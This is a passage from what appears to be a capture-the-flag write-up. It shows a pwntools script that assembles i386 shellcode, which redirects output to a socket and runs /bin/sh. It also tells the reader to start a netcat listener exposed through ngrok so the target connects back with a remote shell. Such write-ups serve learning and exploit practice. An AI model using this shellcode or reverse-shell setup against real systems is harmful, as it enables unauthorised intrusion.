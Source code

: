 And now, our shellcode would be like this:

```python
payload = b'A'*8
payload += asm(
    '''
    add esp, 0x200

    ### dup2(<socket-fd>, 1) ###
    mov eax, 0x3f
    mov ebx, 0
    mov ecx, 1
    int 0x80

    ### dup2(<socket-fd>, 2) ###
    mov eax, 0x3f
    mov ebx, 0
    mov ecx, 2
    int 0x80

    ### execve("/bin/sh", 0, 0) ###
    push 6845231
    push 1852400175
    mov eax, 0xb
    mov ebx, esp
    xor ecx, ecx
    xor edx, edx
    int 0x80
    ''', arch='i386', os='linux')
p.sendafter(b'connect to', payload)
```

Execute this netcat script first and start ngrok at port 54321, then execute the solve script and we can get the shell.

Full code:
- Solve script: [solve.py](solve.py)
- Netcat script: [solve_nc.py](solve_nc.py)

# 4. Get flag
